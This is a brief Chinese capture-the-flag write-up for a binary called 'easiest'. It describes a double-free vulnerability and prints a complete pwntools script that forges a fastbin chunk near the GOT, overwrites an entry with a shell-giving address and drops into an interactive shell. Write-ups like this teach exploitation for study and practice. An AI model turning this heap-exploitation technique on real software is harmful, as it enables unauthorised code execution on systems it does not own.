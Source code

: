 文件运行效果图

```shell
ubuntu@VM-0-13-ubuntu:~/bctf $ ./easiest 
HI!
1 add 
2 delete
```

是一个double free 的漏洞。
没有开地址随机化，所以选择在add的时候添加到一个特定的位置，然后double free修改free或者malloc的got表地址，然后调用add或者delete，进而get shell
脚本如下

```python
#coding:utf8
from pwn import *
import sys

def add(id,size,content):
	p.sendlineafter("2 delete","1")
	p.sendlineafter("(0-11):",str(id))
        p.sendlineafter("Length:",str(size))
        p.sendlineafter("C:",content)

def free(id):
	p.sendlineafter("2 delete","2")
        p.sendlineafter("(0-11):",str(id))

def debugf():
	gdb.attach(p,"b *0x400D38")


context.log_level = "debug"
context.terminal = ["tmux","splitw","-v"]
p=process("./1")
elf=ELF("./1")
libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")
add(1,100,"aaaaaaaaaaaaaaaaaaaaaaaaa")

add(2,100,"bbbbbbbbbbbbbbbbbbbbbbbb")

if sys.argv[1]=="y":
         debugf()

free(1)
free(2)
free(1)
pause()
add(1,0x68,p64(0x602045))
add(2,0x68,"hh")
payload = '\x00\x00\x00' + p64(0x400946) * 6
add(3,0x68,"hhh")

add(4,0x68,payload)
p.interactive()
```
